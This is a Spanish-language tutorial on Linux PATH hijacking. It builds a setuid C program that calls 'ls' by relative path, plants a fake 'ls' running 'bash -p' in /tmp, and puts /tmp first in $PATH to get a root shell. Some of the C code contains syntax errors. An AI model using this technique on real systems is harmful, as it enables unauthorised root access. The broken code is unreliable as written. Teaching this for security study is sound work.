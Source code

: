 # PATH Hijacking

Nos creamos una utilidad en C para ver el ejemplo.
```
#include <stdio.h>

void main(){

        setuid(0);
        
        printf("n\n\[*] Listando (/usr/bin/ls):\n");
        system("/usr/bin/ls);
        
        printf("n\n\[*] Listando (ls):\n");
        system(ls)
}
```
La compilamos con el siguiente comando:
```
gcc ejemplo.c -o ejemplo
```
Le asignamos permisos de ejecución y la ejecutamos.
Podemos observar como a través de la ruta absoluta y de la ruta relativa no se aprecia ninguna diferencia.

Nos vamos al directorio "/tmp/" y creamos un archivo llamado ls en el cual escribiremos dentro de el lo siguiente:
```
bash -p
```
Lo guardamos y le asignamos permisos de ejecución.

Ahora introduciremos el directorio /tmp en nuestro $PATH con el comando:
```
export PATH=/tmp:$PATH
```
Con este comando le estamos indicando que nuestra variable $PATH ahora va a ser /tmp y el $PATH actual.

A continuación ejecutamos el binario ejemplo y como podemos comprobar somos root.

Esto es debido a que al no utilizar la ruta absoluta, estamos ejecutando a ls mediante el $PATH, es decir la ruta relativa por lo que irá buscando donde está el archivo ls para ejecutarlo. 
Con el siguiente comando podemos ver nuestro $PATH.
```
echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
Este es un ejemplo de un $PATH sin modificar en cada pc puede ser diferente.
Para ejecutar el comando "ls" deberá buscar en cada ruta que aparece en el $PATH hasta que lo encuentre. 
Pero si nosotros creamos un archivo llamado ls en el directorio /tmp como hemos hecho anteriormente y añadimos al $PATH el directorio /tmp el primero.
Entonces irá a buscar a /tmp y ejecutará ese archivo el cual en realidad ejecuta una shell como root.
Nuestro $PATH quedaría así:
```
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```



